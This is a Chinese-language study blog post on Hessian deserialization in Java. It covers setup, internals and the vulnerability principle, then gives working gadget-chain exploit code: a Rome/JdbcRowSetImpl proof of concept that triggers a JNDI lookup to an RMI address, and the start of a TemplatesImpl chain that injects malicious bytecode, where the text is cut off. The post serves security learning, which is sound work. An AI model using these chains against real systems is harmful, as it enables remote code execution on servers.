





# Hessian 反序列化

1. 学完 CC 就跑来学这个了，其他组件的各种反序列化链，以后 CTF 有机会接触到再说吧，感觉也没啥时间留给我速成了，现在感觉怎么也追不上这些前辈。
2. 文章以 su18 师傅为主，感觉 su18 师傅的文章写的很好，有些地方能复制的就引用复制了吧。
3. 学链的目的本身是学习链条中的某些细节思路，以后未来打组合拳时，相比会用上的吧。

## 1. Hessian 是啥

1. 直接开抄：

    > Hessian 是 [caucho](https://caucho.com/) 公司的工程项目，为了达到或超过 ORMI/Java JNI 等其他跨语言/平台调用的能力设计而出，在 2004 点发布 1.0 规范，一般称之为 Hessian ，并逐步迭代，在 Hassian jar 3.2.0 之后，采用了新的 2.0 版本的协议，一般称之为 Hessian 2.0。
    >
    > 这是一种动态类型的[二进制序列化](http://hessian.caucho.com/doc/hessian-serialization.html)和 [Web 服务](http://hessian.caucho.com/doc/hessian-ws.html)协议，专为面向对象的传输而设计。Hessian 协议在设计时，重点的几个目标包括了：必须尽可能的快、必须尽可能紧凑、跨语言、不需要外部模式或接口定义等等。
    >
    > 对于这样的设计，caucho 公司其实提供了两种解决方案，一个是 Hession，一个是 Burlap。Hession 是基于二进制的实现，传输数据更小更快，而 Burlap 的消息是 XML 的，有更好的可读性。两种数据都是基于 HTTP 协议传输。
    >
    > Hessian 本身作为 [Resin](https://caucho.com/products/resin) 的一部分，但是它的 `com.caucho.hessian.client` 和 `com.caucho.hessian.server` 包不依赖于任何其他的 Resin 类，因此它也可以使用任何容器如 Tomcat 中，也可以使用在 EJB 中。事实上很多通讯框架都使用或支持了这个规范来序列化及反序列化类。
    >
    > 作为一个二进制的序列化协议，Hessian 自行定义了一套自己的储存和还原数据的机制。对 8 种基础数据类型、3 种递归类型、ref 引用以及 Hessian 2.0 中的内部引用映射进行了相关定义。这样的设计使得 Hassian 可以进行跨语言跨平台的调用。

    下面会补充一些关键字的解释。

2. JNI：全称 Java Native Interface，Java 本地方法接口。

    > https://www.cnblogs.com/longfurcat/p/9830129.html
    > 它是 Java 语言允许 Java 代码**与 C、C++ 代码交互的标准机制**。维基百科是这样解释的：“当应用无法完全用 Java 编程语言实现的时候，（例如，标准 Java 类库不支持的特定平台特性或者程序库时），JNI 使得编程者能够编写 native 方法来处理这种情况”。这就意味着，在一个 Java 应用程序中，我们可以使用我们需要的 C++ 类库，并且直接与 Java 代码交互，而且在可以被调用的 C++ 程序内，反过来调用 Java 方法（回调函数）。

3. Hessian 的二进制序列化基于 B-RPC（Binary-Remote Procedure Call Protocol）；RPC 和 RMI 实现的功能差不多，都是远程调用一些方法。只不过 B-RPC 采用该二进制格式。

4. Hessian 的 Web 服务意思是其主要通过 Web 来提供服务。详细会在其使用中会讲到。

## 2. Hessian 基本使用

### 2.1 使用 Hessian 框架，借助自己提供的 Servlet 发布

1. 导入依赖：
    ```xml
    <!-- https://mvnrepository.com/artifact/com.caucho/hessian -->
    <dependency>
        <groupId>com.caucho</groupId>
        <artifactId>hessian</artifactId>
        <version>4.0.38</version>
    </dependency>
    ```

2. 简易创建 service：
    
    
    使用注解别忘了修改 web.xml 中的字段 `metadata-complete="false"`。

3. 然后客户端进行访问：
    

4. 结果：
    
    

5. 可以看出，实现类直接变成 Servlet 以提供访问，如果以 MVC 的角度来看，提供 `Servlet` 访问的类（相当于 Controller）直接在客户端实例化了，但其又不是 Controller，感觉怪怪的。

6. 当然也可以不继承 `HessianServlet`，而是在 web.xml 中将其直接配置：
    ```xml
    <servlet>
    	<servlet-name>hessian</servlet-name>
    	<servlet-class>com.caucho.hessian.server.HessianServlet</servlet-class>
    	<init-param>
    		<param-name>home-class</param-name>
    		<param-value>com.endlessshw.service.impl.GreetingImpl</param-value>
    	</init-param>
    	<init-param>
    		<param-name>home-api</param-name>
    		<param-value>com.endlessshw.service.Greeting</param-value>
    	</init-param>
    </servlet>
    <servlet-mapping>
    	<servlet-name>hello</servlet-name>
    	<url-pattern>/hello</url-pattern>
    </servlet-mapping>
    ```

7. 总之继承了 `HessianServlet` 的类一般都是要被远程调用的。

### 2.2 整合在 Spring 项目中

1. 参考：
    > https://www.jianshu.com/p/9136aa36cffb
2. 先将实现类交给 SpringBoot 管理：
    ```java
    package com.endlessshw.serialization.service.impl;
    
    import com.endlessshw.serialization.service.Greeting;
    import org.springframework.stereotype.Service;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2024/10/3 16:51
     */
    @Service
    public class GreetingImpl implements Greeting {
        @Override
        public String sayHello(String name) {
            return "Hello " + name;
        }
    }
    ```

    就是单纯添加一个 `@Service` 注解，表明其是一个服务层 Bean。

3. 然后创建一个配置类取代 XML，在其中设置 Hessian 服务器：
    ```java
    package com.endlessshw.serialization;
    
    import com.endlessshw.serialization.service.Greeting;
    import org.springframework.beans.factory.annotation.Autowired;
    import org.springframework.context.annotation.Bean;
    import org.springframework.context.annotation.Configuration;
    import org.springframework.remoting.caucho.HessianServiceExporter;
    
    import javax.annotation.Resource;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2024/10/4 23:52
     */
    @Configuration // 标记为 Spring 配置类
    public class HessianServiceConfig {
        @Resource(name = "GreetingImpl")
        private Greeting greeting;
    
        /**
         * 1. HessianServiceExporter是由 Spring.web 框架提供的 Hessian 工具类，能够将 bean 转化为 Hessian 服务
         * 2. @Bean(name = "/helloHessian.do") 加斜杠方式会被 Spring 暴露服务路径，发布服务。
         * @return
         */
        @Bean("/hello")
        public HessianServiceExporter exportHelloHessian()
        {
            HessianServiceExporter exporter = new HessianServiceExporter();
            exporter.setService(greeting);
            exporter.setServiceInterface(Greeting.class);
            return exporter;
        }
    }
    ```

4. 客户端不变，直接访问即可。（得狠狠的补 JavaWeb 的知识了，忘了很多）。

### 2.3 自封装工具类和 JNDI 源

1. 自封装工具类如下：
    ```java
    /**
     * Hessian 序列化
     *
     * @param object 待序列化的对象
     * @return 返回序列化的结果 byte[]
     */
    public static byte[] hessianSerialize(Object object) {
        Hessian2Output hessian2Output = null;
        byte[] result = null;
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        hessian2Output = new Hessian2Output(byteArrayOutputStream);
        try {
            hessian2Output.writeObject(object);
            hessian2Output.flush();
            result = byteArrayOutputStream.toByteArray();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return result;
    }
    
    /**
     * Hessian 反序列化
     *
     * @param bytes 传入的序列化 byte[]
     * @return 返回反序列化后的对象
     */
    public static Object hessianUnSerToObj(byte[] bytes) {
        Object result = null;
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        try {
            result = hessian2Input.readObject();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return result;
    }
    ```

2. JNDI 源 详见 su18 师傅的吧，以后再统一学习一下 JNDI。

## 3. Hessian 源码

### 3.1 接口的暴露和访问

1. 正如前文中 Hessian 的基本使用，实现类都继承了 `com.caucho.hessian.server.HessianServlet` 类，跟进这个类看一下：
    
    可以看到其继承了抽象类 `HttpServlet`。好久没写 Servlet 了，这里回忆补充一下 `HttpServlet`：

    1. `Servlet` 接口有三个重要的方法，`init()`、`service()` 和 `destory()`。
    2. `HttpServlet` 继承 `GenericServlet`。
    3. `HttpServlet` 中没有 `init(ServletConfig config)`，那么就会默认调用 `GenericServlet` 的 `init(ServletConfig config)`，此时这里面会执行无参的 `init()` （**自己定义的 Servlet 就可以重写该方法，用于进行初始化工作**）。
    4. `HttpServlet` 的 `service(ServletRequest req, ServletResponse res)`，还调用了 `service(request, response)`，其中还发生了强制类型转换，这个 `service()` 实际上是重载的方法，定义为：`service(HttpServletRequest req, HttpServletResponse resp)`。
        
    5. 重载的 `service(HttpServletRequest req, HttpServletResponse resp)` 中，通过 `req.getMethod()` 来获取浏览器的请求方式，根据请求方式来调用不同的方法。看源码可知，是 `do七种请求方式(req, resp)`。
    6. 在常用的 HTTP 业务下，一般会根据业务情况，重写 `doGet()` 或者 `doPost()`，但是如果都要覆盖的话，就是建议**直接重写 `service()` 方法**。

    回忆结束，重点关注 `HessianServlet` 重写的两种方法：`init()`和 `service()`。

2. su18 师傅文章写的很好啊，我都不懂咋补充自己却的东西，这里就直接引用了吧，先看 `init()`：

    > 接下来重点关注这两个方法。首先是 `init` 方法，这个方法总体来讲就是用来初始化 HessianServlet 的成员变量，包括 `_homeAPI`(调用类的接口 Class)、`_homeImpl`(具体实现类的对象)、`_serializerFactory`(序列化工厂类)、`_homeSkeleton`(封装方法)等等。
    >
    > 
    >
    > 基础逻辑如下：
    >
    > 
    >
    > 这里提到了 `HessianSkeleton` 代理对象，`HessianSkeleton` 是 `AbstractSkeleton` 的子类，用来对 Hessian 提供的服务进行封装。
    >
    > `AbstractSkeleton` 初始化时接收调用接口的类型，并按照自己的逻辑把接口中的方法保存在 `_methodMap` 中，包括“方法名”、“方法名__方法参数个数”、“方法名_参数类型_参数 2 类型”等自定义格式。
    >
    > 
    >
    > HessianSkeleton 初始化时将实现类 `_homeImpl` 保存在成员变量 `_service` 中。
    >
    > 
    >
    > 回到刚刚的 `HessianServlet`，这里有一个小细节，Hessian 自行封装了一个 `loadClass` 方法加载类，优先从线程中获取类加载器加载类，在没有设置的情况下使用当前类加载器加载。
    >
    > 
    >
    > 类加载的知识学着学着就忘记了，不知道为什么要这样写，所以看到这里特意和园长语音了一下，思考了一下，觉得大概有两种原因：
    >
    > - 不同环境下可能使用自定义类加载器重新加载类，对原来的代码进行魔改，这里可以确保拿到原本的代码。
    > - 线程中一般默认是 AppClassLoader，是加载用户代码的类加载器，通常可以很快找到用户的类。
    >
3.   接下来看下 `service()` 方法
    >
    >
    >
    >`invoke` 方法根据 objectID 是否为空决定调用哪个。
    >
    >
    >
    >查看关键方法 `HessianSkeleton#invoke`，首先是输入输出流的创建：
    >
    >
    >
    >然后主要是调用方法的查找和参数的反序列化，反序列化后进行反射调用，并写回结果。
    >
    >

4. 然后就是整合在 Spring 中的：

    > 接下来说下 **Spring**。
    > `org.springframework.remoting.caucho.HessianServiceExporter#handleRequest()` 中调用了其父类 `HessianExporter#invoke()` ：
    > 
    >
    > 关键方法是 `doInvoke` 方法，其实逻辑与 Servlet 类似，就不多重复了。
    >
    > 
    >
    > 可以看到这里也是额外处理了一下类加载器的问题。

### 3.2 序列化和反序列化流程

1. 直接引用吧：

    > Hessian 的序列化反序列化流程有几个关键类，一般包括**输入输出流、序列化/反序列化器、相关工厂类**等等，依次来看一下。
    >
    > 首先是输入和输出流，Hessian 定义了 `AbstractHessianInput/AbstractHessianOutput` 两个抽象类，用来提供序列化数据的读取和写入功能。Hessian/Hessian2/Burlap 都有这两个类各自的实现类来实现具体的逻辑。

2. 先是序列化：

    > 先来看**序列化**，对于输出流关键类为 AbstractHessianOutput 的相关子类，这些类都提供了 `call` 等相关方法执行方法调用，`writeXX` 方法进行序列化数据的写入，这里以 `Hessian2Output` 为例。
    >
    > 除了基础数据类型，主要关注的是对 Object 类型数据的写入方法 `writeObject`：
    >
    > 
    >
    > 这个方法根据指定的类型获取序列化器 `Serializer` 的实现类，并调用其 `writeObject` 方法序列化数据。在当前版本中，可看到一共有 29 个子类针对各种类型的数据。对于**自定义类型**，将会使用 `JavaSerializer/UnsafeSerializer/JavaUnsharedSerializer` 进行相关的序列化动作，默认情况下是 `UnsafeSerializer`。
    >
    > 
    >
    > 

    默认的情况为什么会返回这三个 `Serializer`，这里可以先自定义一个序列化类，然后调试：
    ```java
    @Test
    public void testHessianSer() throws IOException {
        // TestClass implements Serializable
        byte[] bytes = hessianSerialize(new TestClass());
    }
    ```
    
    打断点，一路跟踪到 `SerializerFactory#loadSerializer()`：
    
    
    总之当序列化的类不满足它判断的各种类型时，最终就会进入到 `getDefaultSerializer(cl)` 中，跟进：
    
    这里就会看到默认的两个 `Serializer`。
    
    > `UnsafeSerializer#writeObject` 方法兼容了 Hessian/Hessian2 两种协议的数据结构，会调用 `writeObjectBegin` 方法开始写入数据，
    >
    > 
    >
    > `writeObjectBegin` 这个方法是 `AbstractHessianOutput` 的方法，Hessian2Output 重写了这个方法，而其他实现类没有。也就是说在 Hessian 1.0 和 Burlap 中，写入自定义数据类型（Object）时，都会调用 `writeMapBegin` 方法将其标记为 Map 类型。
    
    这是没有重写的情况，也就是默认调用 `AbstractHessianOutput#writeObjectBegin`：
    
    然后就是 Hessian 2.0 的情况：
    
    最终会返回 `-1`。
    然后调用 `writeDefinition20` 和 `Hessian2Output#writeObjectBegin` 方法写入自定义数据，就不再将其标记为 Map 类型。
    
3. 然后就是反序列化：

    > 对于输入流关键类为 `AbstractHessianInput` 的子类，这些类中的 `readObject` 方法定义了反序列化的关键逻辑。基本都是长达 200 行以上的 switch case 语句。在读取标识位后根据不同的数据类型调用相关的处理逻辑。这里还是以 `Hessian2Input` 为例。
    > 
    > 在 Hessian 1.0 的 HessianInput 中，没有针对 Object 的读取，而是都将其作为 Map 读取，在序列化的过程中我们也提到，在写入自定义类型时会将其标记为 Map 类型。跟进 `findSerializerFactory().readMap`：
    > 
    > 再跟进 `MapDeserializer#readMap()`。方法提供了针对 `Map` 类型数据的处理逻辑。
    > 
    >
    > 然而在 Hessian 2.0 中，则是提供了 `UnsafeDeserializer` 来对自定义类型数据进行反序列化，关键方法在 `readObject` 处。

    和序列化时寻找 `Serializer` 的思路相同，这回寻找默认的 `Deserializer`：
    
    跟进：
    
    一路跟进，最终会到 `SerializerFactory#getDefaultDeserializer()` 下：
    
    因此接下来会看 `UnsafeDeserializer#readObject()`：

    > 
    > `instantiate` 使用 unsafe 实例的 `allocateInstance` 直接创建类实例。
    > 

### 3.3 远程调用

1. 现在回到客户端的视角，当时使用了：
    ```java
    HessianProxyFactory hessianProxyFactory = new HessianProxyFactory();
            Greeting greeting = (Greeting) hessianProxyFactory.create(Greeting.class, url);
    ```

    > 这里实际上是使用了 Hessian 提供的 `HessianProxy` 来为待调用的接口和 `HessianRemoteObject` 创建动态代理类。
    > 最终调用到：
    > 
    > 主程序中调用了代理对象的方法，那么相应的就会调用 `InvocationHandler#invoke()`，也就是 `HessianProxy#invoke()`：
    > 
    > 代码好像和 su18 师傅的不一样。
    > 发送请求获取结果并反序列化，这里使用了 `HessianURLConnection` 来建立连接。
    >
    > 
    > 里面有 `readObject()`：
    > 
    > 非常简单的逻辑，就是发出了一个 HTTP 请求并反序列化数据而已。

### 3.4 一些细节

1. 协议版本：

    > 在之前已经介绍过了，Hessian 传输协议已经由 1.0 版本迭代到了 2.0 版本。但是目前的 Hessian 包是两种协议都支持的，并且服务器使用哪种协议读取序列化数据，和返回哪种协议格式的序列化数据，将完全由**请求中的标志位**来进行定义。
    >
    > 在我们测试使用的最新版中，这一设定位于 `HessianProxyFactory` 中的两个布尔型变量中，即 `_isHessian2Reply` 和 `_isHessian2Request`，如下图，默认情况下，客户端使用 Hessian 1.0 协议格式发送序列化数据，服务端使用 Hessian 2.0 协议格式返回序列化数据。

    

    > 如果想自己指定用 Hessian 2.0 协议进行传输，客户端可以使用如下代码进行设置：
    > ```java
    > HessianProxyFactory factory  = new HessianProxyFactory();
    > factory.setHessian2Request(true);
    > ```

2. Serializable：

    > 在 Java 原生反序列化中，实现了 `java.io.Serializable` 接口的类才可以反序列化。Hessian 象征性的支持了这种规范，具体的逻辑如下图，在获取默认序列化器时，判断了类是否实现了 Serializable 接口。

    

    > 但同时 Hessian 还提供了一个 `_isAllowNonSerializable` 变量用来打破这种规范，**可以使用 `SerializerFactory#setAllowNonSerializable` 方法将其设置为 `true`，从而使未实现 Serializable 接口的类也可以序列化和反序列化。**
    >
    > 这就很魔幻了，判断是在序列化的过程中进行的，而非反序列化过程，那自然可以绕过了，换句话说，Hessian 实际支持反序列化任意类，无需实现 Serializable 接口。
    >
    > 这里再提一下 serialVersionUID 的问题，在 Java 原生反序列化中，在未指定 serialVersionUID 的情况下如果修改过类中的方法和属性，将会导致反序列化过程中生成的 serialVersionUID 不一致导致的异常，**但是 Hessian 并不关注这个字段，所以即使修改也无所谓。**
    >
    > 然后是 transient 和 static 的问题，在序列化时，由 `UnsafeSerializer#introspect` 方法来获取对象中的字段，在老版本中应该是 `getFieldMap` 方法。依旧是判断了成员变量标识符，如果是 transient 和 static 字段则不会参与序列化反序列化流程。
    > 
    > 在原生流程中，标识为 `transient` 仅代表不希望 Java 序列化反序列化这个对象，开发人员可以在 `writeObject/readObject` 中使用自己的逻辑写入和恢复对象，但是 Hessian 中没有这种机制，**因此标识为 transient 的字段在反序列化中一定没有值的。**

3. Object Naming：

    > 之前在看代码时看到过，Hessian 在调用时还支持使用 id 和 ejbid 参数，可以导致调用不同的实体 Beans。应该是 `HessianServlet#Service()`。
    > 
    >
    > 这种情况当 Hessian 支持的调用服务是一些面向对象的服务比如 naming services/entity beans/session beans 或 EJB 容器时可以使用。
    >
    > 本质上的调用流程都是一样的，只是提供服务的对象有所不同。
    >
    > 相关内容可以查看官方连接：[http://hessian.caucho.com/...#ObjectNamingnon-normative](http://hessian.caucho.com/doc/hessian-1.0-spec.xtp#ObjectNamingnon-normative)
    > **TODO：有一说一，这一段内容看的确实折磨。这些提到的服务基本没有接触过，倒不如说自己写过，基本没啥印象。Bean 的印象也忘得差不多了，得回去补充了。**

## 4. 漏洞原理

1. 和原生的反序列化不同，Hessian 的反序列化重写了 `readObject()`，其并没有直接调用原生的反序列化。

    > `UnsafeDeserializer#readObject()` 使用 unsafe 创建类实例，使用反射写入值，并且没有在重写了某些方法后对其进行调用这样的逻辑。
    > 所以无论是构造方法、getter/setter 方法、readObject 等等方法都不会在 Hessian 反序列化中被触发，那怎么会产生漏洞呢？
    > 答案就在 Hessian 对 Map 类型数据的处理上，在之前的分析中提到，`MapDeserializer#readMap` 对 Map 类型数据进行反序列化操作是会创建相应的 Map 对象，并将 Key 和 Value 分别反序列化后使用 put 方法写入数据。在没有指定 Map 的具体实现类时，将会默认使用 `HashMap` ，对于 `SortedMap`，将会使用 `TreeMap`。

    反序列化过程就是：`Hessian2Input#readObject()` -> `SerializerFactory#readMap()` -> `MapDeserializer#readMap()`。
    

    > 而由 DNSLog 链可知， `HashMap` 在 put 键值对时，将会**对 key 的** hashcode 进行校验查看是否有重复的 key 出现，这就将会调用 key 的 `hasCode()` 方法。
    > 同样的，由 CC4 可知，`TreeMap` 在 put 时，由于要进行排序，所以要**对 key 进**行比较操作，将会调用 compare 方法，会调用 key 的 `compareTo()` 方法。
    > 也就是说 Hessian 相对比原生反序列化的利用链，有几个限制：
    >
    > - kick-off 从 `HashMap` 和 `TreeMap` 开始，起始方法只能为其 key 的 hashCode/equals/compareTo 方法；
    > - 利用链中调用的成员变量不能为 `transient` 修饰；
    > - 所有的调用**不依赖**类中 `readObject` 的逻辑，也不依赖 getter/setter 的逻辑。
    >
    > 这几个限制也导致了很多 Java 原生反序列化利用链在 Hessian 中无法使用，甚至 ysoserial 中一些明明是 hashCode/equals/compareTo 触发的链子都不能直接拿来用。

## 5. 利用链

1. 参考：

    > 目前常见的 Hessian 利用链在 [marshalsec](https://github.com/mbechler/marshalsec) 中共有如下五个：
    >
    > - Rome
    > - XBean
    > - Resin
    > - SpringPartiallyComparableAdvisorHolder
    > - SpringAbstractBeanFactoryPointcutAdvisor
    >
    > 也就是抽象类 `marshalsec.HessianBase` 分别实现的 5 个接口。
    > 
    >
    > 触发漏洞的触发点对应在 HessianBase 的三个实现类：Hessian\Hessian2\Burlap。接下来我们依次看一下这些调用链。

### 5.1 Rome - 出网

1. 在 Rome 链中，最核心的类就是 `ToStringBean`，这个类的 `toString()` 会调用其所封装类的所有全部无参 getter。

2. 既然是通过 getter，而且出网，那么可以想到走 fastjson 反序列化中的 `JdbcRowSetImpl`，先来看出网链，`JdbcRowSetImpl#getDatabaseMetaData()` 是 fastjson 触发反序列化的另一条可能路径。回忆 fastjson 的反序列化，当时用的是 `JdbcRowSetImpl#setAutoCommit()`，而 `JdbcRowSetImpl#getDatabaseMetaData()` 当时没用是因为报错而导致链中断。现在就使用这个方法。
    
    

3. 其余的部分相比 Rome 反序列化链没啥改变，上 PoC：
    ```java
    // Rome 版本 1.11.1，fastjson 1.2.24
    @Test
    public void testRome_JNDI() throws Exception {
        // 1. 构造 sink
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        // 既然用 getDatabaseMetaData，那就用其 setter 来设置参数
        jdbcRowSet.setDataSourceName("rmi://127.0.0.1:1099/myRemote");
        
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        // 注意这里是 JdbcRowSetImpl.class，JdbcRowSet 接口中没有定义：
        /**{@link com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData()}**/
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet));
        
        // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
        
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
        
        String serialize = serialize(objectBeanStringHashMap);
        unSerialize(serialize);
    }
    ```

    

4. 调用链：
    ```java
    /*
    	HashMap.readObject()
    		ObjectBean.hashCode()
                EqualsBean.beanHashCode()
                    ToStringBean.toString()
                        JdbcRowSetImpl.getDatabaseMetaData()
                            JdbcRowSetImpl.connect()
                                InitialContext.lookup()
                                ...
    */
    ```

### 5.2 Rome - 不出网 - 二次反序列化

1. 既然想到了 Rome，那原来的 Rome 链是否能触发呢？本质就是查看 `TemplatesImpl` 是否有啥条件是不满足 Hessian 的要求的。先来回顾 `TemplatesImpl` 作为 sink 的代码：
    ```java
    // 1. 读取恶意类 bytes[] 并 sink 构造
    ClassPool pool = ClassPool.getDefault();
    CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
    byte[] bytes = ctClass.toBytecode();
    TemplatesImpl templates = new TemplatesImpl();
    // 要求 1 - 注入恶意字节码
    Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
    bytecodesField.setAccessible(true);
    bytecodesField.set(templates, new byte[][]{bytes});
    // 要求 2 - 保证 _name 不为 null
    Field nameField = templates.getClass().getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates, "EndlessShw");
    // 可选要求 3 - 保证 _tfactory 不为 null
    ```

